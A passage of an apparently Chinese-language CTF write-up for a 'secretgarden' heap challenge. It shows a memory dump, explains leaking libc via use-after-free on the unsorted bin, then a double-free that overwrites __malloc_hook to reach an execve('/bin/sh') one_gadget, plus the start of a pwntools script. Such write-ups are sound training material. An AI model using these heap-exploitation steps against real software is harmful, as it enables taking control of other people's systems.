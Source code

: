 ```shell  
0x60202a:       0x4810000000000040      0x1a3000007f8c1e69  
0x60203a:       0xb28000007f8c1e7b      0x69a000007f8c1e70  
0x60204a:       0x631000007f8c1e73      0xf75000007f8c1e73  
0x60205a:       0x43d000007f8c1e65      0x318000007f8c1e67  
0x60206a:       0xee8000007f8c1e6c      0x60f000007f8c1e6a  
0x60207a:       0x5e9000007f8c1e73      0xa4e000007f8c1e67  
0x60208a:       0x088600007f8c1e6a      0x0000000000000040  
0x60209a:       0x0000000000000000      0x0000000000000000  
0x6020aa:       0x0000000000000000      0x0000000000000000  
0x6020ba:       0x4620000000000000      0x000000007f8c1ea0  
0x6020ca:       0x0000000000030000      0x0000000000000000  
0x6020da:       0x3010000000000000      0x40b000000000009e  
```  
  
在0x601ffa中只会检查最后四字节，会通过大小的检查。  
  
还可以通过UAF泄露unsortbin的地址， linux中使用free()进行内存释放时，不大于 max_fast （默认值为 64B）的 chunk 被释放后，首先会被放到 fast bins中，大于max_fast的chunk或者fast bins 中的空闲 chunk 合并后会被放入unsorted bin中（参考glibc内存管理ptmalloc源码分析一文）  
  
​    而在fastbin为空时，unsortbin的fd和bk指向自身main_arena中，该地址的相对偏移值存放在libc.so中，可以通过use after free后打印出main_arena的实际地址，结合偏移值从而得到libc的加载地址。  
  
- 首先通过unsorted_bin，free掉一个chunk，让它进入unsorted_bin表，使得fd指向表头，然后通过泄漏出的地址，通过一顿偏移的操作，泄漏出malloc_hook的地址，进而泄漏出libc的基址  
- 利用double-free，使得下一个新创建的chunk会落在malloc_hook上，进而改了malloc_hook的地址，改变程序执行流程  
  
借助one_gadget  
  
```python  
"""  
# one_gadget /lib/x86_64-linux-gnu/libc.so.6  
0x45226 execve("/bin/sh", rsp+0x30, environ)  
constraints:  
  rax == NULL  
  
0x4527a execve("/bin/sh", rsp+0x30, environ)  
constraints:  
  [rsp+0x30] == NULL  
  
0xf0364 execve("/bin/sh", rsp+0x50, environ)  
constraints:  
  [rsp+0x50] == NULL  
  
0xf1207 execve("/bin/sh", rsp+0x70, environ)  
constraints:  
  [rsp+0x70] == NULL  
"""  
#encoding:utf-8  
from pwn import *  
context(os="linux", arch="amd64",log_level = "debug")  
context.terminal = ["tmux", "split", "-h"]  
p = process("./secretgarden")#, aslr=0  
  
elf = ELF("./secretgarden")  
#libc = ELF("./libc-2.23.so")  
libc = elf.libc  
#-------------------------------------
def sl(s):  
    p.sendline(s)  
def sd(s):  
    p.send(s)  
def rc(timeout=0):  
    if timeout == 0:  
        return p.recv()  
    else:  
        return p.recv(timeout=timeout)  
```